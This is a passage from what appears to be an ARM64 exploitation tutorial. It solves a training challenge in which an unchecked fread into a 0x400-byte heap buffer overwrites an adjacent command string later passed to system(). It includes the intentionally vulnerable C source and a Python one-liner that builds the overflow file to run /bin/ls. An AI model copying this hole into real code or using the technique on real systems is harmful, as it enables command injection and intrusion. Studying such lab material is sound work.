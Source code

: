 The allocation for r21 (x21) is 0x400 bytes, which is read using the following **fread** command 

fread(r21, 0x1, r20, r19);


Let's create a simple file on the device and pass it as input to the **vuln** binary.

**echo "Hello World" > input.txt**
.**/vuln heap input.txt**

![1]({{site.baseurl}}/images/posts/arm/5.png)

So it seems like it prints out the input for the **whoami** command

Let's cheat a bit to look at the Source code itself

{% highlight c %}

void heapOverflow(char *filename){
    printf("Heap overflow challenge. Execute a shell command of your choice on the device\n");
    printf("Welcome: from %s, printing out the current user\n", filename);
    FILE *f = fopen(filename,"rb");
    fseek(f, 0, SEEK_END);
    size_t fs = ftell(f);
    fseek(f, 0, SEEK_SET);
    char *name = malloc(0x400);
    char *command = malloc(0x400);
    strcpy(command,"whoami");
    fread(name, 1, fs, f);
    system(command);
    return;
}
{% endhighlight %}

Sure enough, passing a file with length more than **0x400** bytes will overflow the adjacent memory and might end up overflowing the string "**command**", and thus when the **system** call is made, we might be able to call our own commands.

On the Corellium device, use the following command to generate the malicious file

**python3 -c 'print("/"*0x400+"/bin/ls\x00")' > hax.txt**

Then pass it as input to the binary. 

**vuln heap hax.txt**

![1]({{site.baseurl}}/images/posts/arm/4.png)

Instead of the **whoami** command, the **ls** command gets executed. 

Can you try and get a shell on the device using this ? 

### References

* https://github.com/Siguza/ios-resources/blob/master/bits/arm64.md
* https://github.com/Billy-Ellis/Exploit-Challenges 
* https://developer.arm.com/documentation/ddi0487/latest/arm-architecture-reference-manual-armv8-for-armv8-a-architecture-profile
https://exploit.education
